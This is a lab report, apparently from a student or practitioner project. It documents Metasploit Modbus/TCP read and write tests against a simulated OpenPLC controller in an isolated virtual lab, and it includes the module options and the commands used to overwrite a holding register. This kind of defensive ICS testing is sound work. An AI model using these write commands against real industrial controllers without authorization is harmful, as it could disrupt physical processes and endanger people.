# Metasploit Modbus Test Results

## Project Context

This section documents the Metasploit-based Modbus/TCP testing performed against the simulated OpenPLC target in the isolated virtual OT/ICS lab.

The purpose of this section was to validate whether the Kali assessment workstation could interact with the OpenPLC Modbus/TCP service on port `502`. The testing included read-only operations, a controlled write operation, read-back verification, and restoration of the modified value.

## Lab Systems

| Role | System | IP Address |
|---|---|---|
| Simulated PLC / Target | Ubuntu with OpenPLC | `192.168.79.148` |
| Assessment Workstation | Kali Linux | `192.168.79.149` |

## Metasploit Module Used

```text
auxiliary/scanner/scada/modbusclient
```

This module allows read and write interaction with a Modbus/TCP service. In this project, it was used only inside the isolated virtual lab.

## Target Configuration

The following base options were used for the Metasploit Modbus client module:

```text
use auxiliary/scanner/scada/modbusclient
set RHOSTS 192.168.79.148
set RPORT 502
set UNIT_NUMBER 1
set HEXDUMP true
```

| Option | Value | Purpose |
|---|---|---|
| `RHOSTS` | `192.168.79.148` | Target OpenPLC VM |
| `RPORT` | `502` | Modbus/TCP port |
| `UNIT_NUMBER` | `1` | Modbus unit/slave ID |
| `HEXDUMP` | `true` | Displays raw response data in hexadecimal format |





---

## Test 1: Read Coils

### Objective

The first test was a read-only operation used to verify whether the Kali assessment workstation could read Modbus coil values from OpenPLC.

In the OpenPLC program, the following variables were mapped:

```text
Pump  AT %QX0.0 : BOOL;
Valve AT %QX0.1 : BOOL;
```

These mapped Boolean variables were treated as simulated output values:

| Coil | PLC Variable | Meaning |
|---|---|---|
| Coil 0 | `Pump` | Simulated pump state |
| Coil 1 | `Valve` | Simulated valve state |

### Commands Used

```text
set ACTION READ_COILS
set DATA_ADDRESS 0
set NUMBER 2
run
```

### Result

```text
2 coil values from address 0:
[0, 0]
```

### Interpretation

The output `[0, 0]` means both coil values were returned as `0`.

| Returned Value | PLC Variable | Interpretation |
|---|---|---|
| First `0` | `Pump` | OFF / FALSE |
| Second `0` | `Valve` | OFF / FALSE |

Since no explicit values were assigned to `Pump` and `Valve` in the PLC program, their default Boolean state was `FALSE`, represented as `0`.





---

## Test 2: Read Holding Register

### Objective

The second test was a read-only operation used to read the holding register mapped to the simulated `TankLevel` variable.

In the OpenPLC program, the variable was mapped as:

```text
TankLevel AT %MW0 : INT;
```

For this lab, holding register address `0` represented the simulated tank-level value.

### Commands Used

```text
set ACTION READ_HOLDING_REGISTERS
set DATA_ADDRESS 0
set NUMBER 1
run
```

### Result

```text
1 register values from address 0:
[0]
```

### Interpretation

The result `[0]` indicates that holding register address `0` had an initial value of `0`.

This matched the expected default value because the `TankLevel` variable was not assigned a specific starting value in the PLC program.





---

## Test 3: Controlled Write to Holding Register

### Objective

The third test was the main controlled write test. The goal was to determine whether the Kali assessment workstation could modify a Modbus holding register on the simulated PLC.

The test changed holding register address `0` from:

```text
0
```

to:

```text
75
```

In the lab scenario, this represented changing the simulated `TankLevel` value.

### Commands Used

```text
set ACTION WRITE_REGISTER
set DATA_ADDRESS 0
set DATA 75
run
```

### Result

```text
Value 75 successfully written at registry address 0
```

### Interpretation

The output confirmed that Metasploit successfully wrote the value `75` to holding register address `0`.

In a real OT/ICS environment, unauthorized write access to a PLC register could have operational consequences depending on what that register controls or represents.



---

## Test 4: Read-Back Verification After Write

### Objective

After writing the value `75`, a read-back test was performed to confirm that the register value actually changed.

### Commands Used

```text
set ACTION READ_HOLDING_REGISTERS
set DATA_ADDRESS 0
set NUMBER 1
run
```

### Result

```text
1 register values from address 0:
[75]
```

### Interpretation

The read-back result `[75]` confirmed that holding register address `0` was successfully modified.

This verified that the write operation affected the OpenPLC Modbus runtime value.



---

## Test 5: Local Ubuntu Verification

### Objective

To further validate that the register value changed on the OpenPLC side, a local Python Modbus/TCP read was executed from the Ubuntu/OpenPLC VM.

The script connected to:

```text
127.0.0.1:502
```

and read holding register address `0`.

### Result

```text
Holding register 0 value: 75
```

### Interpretation

The Ubuntu-side local read confirmed that the register value inside the OpenPLC runtime was `75`.

This provided additional validation that the change was reflected on the simulated PLC side, not only in the Metasploit output.



---

## Test 6: Restore Register Back to Original Value

### Objective

After completing the controlled write test, the register was restored back to its original value of `0`.

This was done to return the lab to a clean/default state.

### Commands Used

```text
set ACTION WRITE_REGISTER
set DATA_ADDRESS 0
set DATA 0
run
```

### Result

```text
Value 0 successfully written at registry address 0
```

### Read-Back Verification

```text
set ACTION READ_HOLDING_REGISTERS
set DATA_ADDRESS 0
set NUMBER 1
run
```

### Verification Result

```text
1 register values from address 0:
[0]
```

### Interpretation

The register was successfully restored from `75` back to `0`.

This confirmed that the controlled test was completed safely and the simulated PLC register was returned to its original state.

 



---

## Summary of Metasploit Results

| Test | Action | Address | Result |
|---|---|---:|---|
| Read coils | `READ_COILS` | `0` | Returned `[0, 0]` |
| Read holding register | `READ_HOLDING_REGISTERS` | `0` | Returned `[0]` |
| Write holding register | `WRITE_REGISTER` | `0` | Wrote value `75` |
| Read-back verification | `READ_HOLDING_REGISTERS` | `0` | Returned `[75]` |
| Restore register | `WRITE_REGISTER` | `0` | Restored value to `0` |
| Final verification | `READ_HOLDING_REGISTERS` | `0` | Returned `[0]` |

## Key Finding

The Metasploit testing confirmed that the Kali assessment workstation could read and write Modbus/TCP data on the simulated OpenPLC target. The controlled write test changed holding register address `0` from `0` to `75`, and the change was confirmed through Metasploit read-back, Ubuntu local verification, and Wireshark packet capture.

## Security Relevance

This result demonstrates that if an unauthorized workstation can directly access a PLC over Modbus/TCP, it may be able to read or modify process-related values. In real OT/ICS environments, this type of access should be restricted using network segmentation, firewall rules, allowlisting, monitoring, and change-control procedures.
